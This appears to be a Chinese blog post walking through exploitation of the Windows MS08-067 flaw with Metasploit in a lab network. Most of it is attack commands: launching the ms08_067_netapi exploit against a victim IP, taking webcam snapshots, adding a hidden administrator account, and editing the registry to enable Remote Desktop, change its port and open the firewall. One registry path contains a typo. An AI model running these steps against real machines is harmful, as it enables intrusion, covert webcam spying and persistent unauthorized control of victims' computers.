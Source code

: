 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```


## 0x0 确定攻击者IP和受害者IP

### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
```c
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set lhost 192.168.88.130
    set rhost 192.168.88.139
```
![](https://lcy2218.github.io/images/20210326-3.png)

```c
    run
```

![](https://lcy2218.github.io/images/20210326-4.png)

```c
    ipconfig
```

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

```c
    webcam_list
    webcam_snap
```

![](https://lcy2218.github.io/images/20210326-6.png)

## 0x3 创建用户

```c
    net user lcy 2218 /add
    net localgroup administrators lcy /add  //把lcy加入管理员用户
```

![](/images/20210326-7.png)

## 0x4 开启远程桌面端口以及远程连接

```c
    REG query HKLM\SYSTEM\CurrentControlSet\Controly\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber //查询终端端口
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f //开启XP&2003终端服务
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f   //更改终端端口为2008(0x7d8)默认为3389（0xD3D）
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\
    Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f         //取消xp&2003系统防火墙对终端服务的限制及IP连接的限制
```

![](/images/20210326-8.png)
![](/images/20210326-9.png)